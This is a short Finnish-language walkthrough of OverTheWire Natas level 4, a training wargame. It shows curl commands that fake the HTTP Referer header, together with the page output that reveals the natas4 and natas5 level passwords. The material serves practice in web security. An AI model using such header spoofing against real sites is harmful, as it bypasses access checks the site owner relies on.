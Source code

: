 ```
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "QryZXc2e0zahULdHrtHxzyYkj59kUxLQ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>

```
eli tämän jälkimäinen komento: `PS C:\> curl -H "Referer: http://natas5.natas.labs.overthewire.org/" http://natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ@natas4.natas.labs.overthewire.org` - niin tämä alkoi pelittää ja toisti sen level 5:sen salasanan

vastaus: periaatteessa ei väliä onko välilehti sivusto tai linux/powershell terminaalissa siinä löytyi vihjeenä <i>"authorized users should come only from [...]."</i> niin tämä toi jotakin curl komentojen `Referer` headeriä viitatten natas5 polkuun.

tai vaihtoehtoinen vastaus, tämäkin toimii, mutta perus löytyy netistä lisätietoa: 

tässä komennossa tapahtuu `-u` <username:password> --referer <URL-target> <URL-current>
```
PS C:\> curl -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ --referer http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org       
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "QryZXc2e0zahULdHrtHxzyYkj59kUxLQ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```
